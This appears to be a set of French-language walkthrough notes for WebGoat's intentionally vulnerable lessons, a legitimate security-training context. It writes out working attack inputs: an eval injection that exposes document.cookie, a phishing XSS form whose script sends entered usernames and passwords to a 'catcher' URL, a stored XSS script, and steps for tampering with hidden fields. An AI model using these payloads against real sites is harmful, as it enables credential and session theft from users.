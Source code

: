 ### Insecure Client Storage

Dans la console javascript du navigateur faire " javascript:alert(decrypt('emph')); " (ou tout autre "code" présent dans le code javascript du site web en question), ça va donc décrypter directement

Stage2
Enlever dans le html le sous total après coupon le nom "GranTot" et laisser le champ de la carte de banque vide

### Dangerous use of eval

ajouter dans un formulaire: " ');alert(document.cookie);(' "

### Same Origin Policy Protection

entrer un url: /WebGoat/plugin_extracted/plugin/SameOriginPolicyProtection/jsp/sameOrigin.jsp and http://www.google.com/search?q=aspect+security

### BufferOverflow

remplir les champs normalement et sur la deuxième page, modifier dans l'inspecteur les éléments du champs qui sont sur "HIDDEN" et les mettre sur "BLOCK" et ajouter dans le champ room 4097 numéros et envoyer
Sur la 2e page voir dans l'inspecteur pour voir les autres clients

refaire la leçon mais en mettant Lewis Hamilton 9901 dans les champs

### Cross-Site Scripting (XSS)

#### Phishing with XSS

mettre

```
</form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user=" + document.phish.user.value + "&password=" + document.phish.pass.value + "";alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H2><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
```

dans le champ de recherche et inscrire un user et un mot de passe, un pop up s'ouvre pour dire que ça été hacké
(par contre ça n'indique pas que c'est réussi et ça revient à l'exercice initial)

#### Stored XSS Attacks

Mettre un titre
dans le message mettre un script, soit celui de l'exercice précédent, soit
`<script language="javascript" type="text/javascript">alert("Ha Ha Ha");</script>`

cliquez sur submit et ensuite cliquez et ensuite sur le titre
